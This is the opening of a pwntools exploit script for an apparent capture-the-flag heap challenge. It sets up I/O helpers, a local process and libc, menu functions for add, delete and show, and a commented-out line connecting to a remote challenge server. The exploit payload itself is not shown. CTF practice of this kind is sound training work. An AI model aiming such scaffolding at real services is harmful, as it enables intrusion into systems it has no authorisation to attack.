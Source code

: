 ### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=remote('47.100.137.175',30118)
p=process("./pwn")
libc = ELF('./libc.so.6')
elf = ELF('./pwn')

def duan():
    gdb.attach(p)
    pause() 

add_idx = 1
delete_idx = 2
show_idx = 4
edit_idx = 3

def choice(cho):
    sla('>',cho)

def add(idx,size):
    choice(add_idx)
    sla('Index: ',idx)
    sla('Size: ',size)

def delete(idx):
    choice(delete_idx)
    sla('Index: ',idx)

def show(idx):
    choice(show_idx)
    sla('Index: ',idx)
```